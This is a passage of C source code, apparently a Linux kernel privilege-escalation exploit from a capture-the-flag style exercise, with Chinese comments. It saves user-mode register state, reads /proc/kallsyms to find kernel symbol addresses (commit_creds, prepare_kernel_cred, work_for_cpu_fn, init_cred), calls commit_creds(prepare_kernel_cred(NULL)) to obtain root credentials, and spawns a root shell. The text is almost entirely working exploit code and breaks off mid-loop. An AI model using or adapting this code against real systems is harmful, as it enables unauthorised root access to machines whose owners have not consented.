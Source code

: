 ```c
}

size_t commit_creds = 0, prepare_kernel_cred = 0, work_for_cpu_fn = 0, init_cred = 0;

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;");
    info("Status has been saved.");
}

void get_root_shell(void)
{
    if (getuid())
    {
        error("Failed to get the root!");
        exit(-1);
    }

    success("Successful to get the root. Execve root shell now...");
    system("/bin/sh");
}

void get_root_privilige(){
    void* (*prepare_kernel_cred_ptr)(void*) = prepare_kernel_cred;
    void* (*commit_creds_ptr)(void*) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}


int main()
{
    info("Starting to exploit...");
    
    // 保存当前寄存器状态 
    save_status();

    // 通过kallsyms，可以查看所有函数的地址（未设置kptr_restrict）
    FILE *sym_fd = fopen("/proc/kallsyms", "r");
    if (sym_fd < 0)
    {
        error("Open /proc/kallsyms Failed.");
        exit(0);
    }

    // 写循环，查找所需函数prepare_kernel_cred和commit_creds的地址
    // 在本方法中，还需要找到work_for_cpu_fn函数和init_cred变量的地址
    size_t address = 0;
    char type[2];
    char func[0x50];
    while(fscanf(sym_fd, "%llx%s%s", &address, type, func)){
        // info("The function name is %s, while address is 0x%lx.", func, address);
        if(commit_creds && prepare_kernel_cred && work_for_cpu_fn && init_cred){
            success("The address of functions are all found.");
            break;
        }
        if(!strcmp(func, "prepare_kernel_cred")){
            prepare_kernel_cred = address;
```